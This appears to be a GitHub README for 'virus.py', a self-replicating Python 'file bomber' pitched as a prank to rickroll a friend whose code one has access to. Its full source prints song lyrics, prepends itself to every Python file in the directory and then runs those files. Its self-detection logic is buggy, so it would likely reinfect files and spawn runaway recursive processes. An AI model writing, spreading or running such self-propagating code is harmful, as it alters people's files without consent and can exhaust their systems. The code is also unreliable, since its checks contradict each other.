 # virus.py
## A Python file bomber
### How it works
So, ever got access to your friend's code, and want to rickroll them?
Well with this, you can, it's one of the fastest ways to do that, and it also spreads to other files in the dirertory.
### How to use it
You can just copy and paste the code below into the program or copy and paste the code in `main.py`, it's really that easy! (also, the `# VIRUS SAYS HI!` and `# VIRUS SAYS BYE!` are required for it to work.)
```python3
# VIRUS SAYS HI!
# Copyright NarmakTwo, all rights reserved
import sys
import glob
import os
print('Never gonna give you up\nNever gonna let you down\nNever gonna run around, and desert you\nNever gonna make you cry\nNever gonna say goodbye\nNever gonna tell a lie, or hurt you\n')
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()
self_replicating_part = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        self_replicating_part = True
    if not self_replicating_part:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
python_files = glob.glob('*.py') + glob.glob('*.pyw')
for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    infected = False
    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = False
            break
    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        with open(file, 'w') as f:
            f.writelines(final_code)
for i in python_files:
  os.system(f'python3 {os.path.abspath(file)} $')
# VIRUS SAYS BYE!
```
### License
You can find the license in `LICENSE.md`
